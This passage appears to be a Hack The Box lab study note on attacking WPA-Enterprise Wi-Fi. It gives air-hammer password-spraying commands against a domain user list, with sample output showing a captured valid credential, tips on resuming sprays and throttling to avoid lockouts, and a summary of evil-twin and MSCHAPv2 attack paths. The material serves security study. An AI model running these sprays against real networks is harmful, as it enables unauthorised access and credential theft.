 2. Spray a single password across all users:
    

```bash
python2 /opt/air-hammer/air-hammer.py -i wlan1 -e HTB-Corp -P football -u domain_users.txt 
```

**Sample output (yours):**

```
[!] VALID CREDENTIALS: HTB\lisa:football
```

> If multiple users reuse the same password, this can yield several valid credential pairs.

### Resume a cancelled spray

Use `-s` with the **left‑hand index** from output to restart where it stopped:

```bash
python2 /opt/air-hammer/air-hammer.py -i wlan1 -e HTB-Corp -P football -u domain_users.txt -s 65
```

**Sample output (yours):** continues from `[65]`.

### Operator notes

- Prefer **spray** with safe throttling (`-t` seconds) to reduce lockouts; consider maintenance windows.
    
- Store hits with `-w creds.csv`; optionally stop on first hit with `-1`.
    
- Pair with earlier recon (crEAP/EAP_buster) to ensure identities are valid and to pick viable inner methods.
    
- Online attacks are noisy; expect logging/alerts on RADIUS/WIDS.
    

---

## Summary

WPA‑Enterprise provides per‑user authentication and strong options (EAP‑TLS) but is still attackable via social engineering (evil‑twin), poorly configured clients (no certificate validation), or by brute‑forcing tunneled auth methods (e.g., MSCHAPv2). Reconnaissance is critical: capture identities and server certs first (tshark, crEAP, pcapFilter). Use `EAP_buster` to enumerate supported EAP methods and choose an appropriate attack type. Always assess detection risk and legal/ethical boundaries before testing.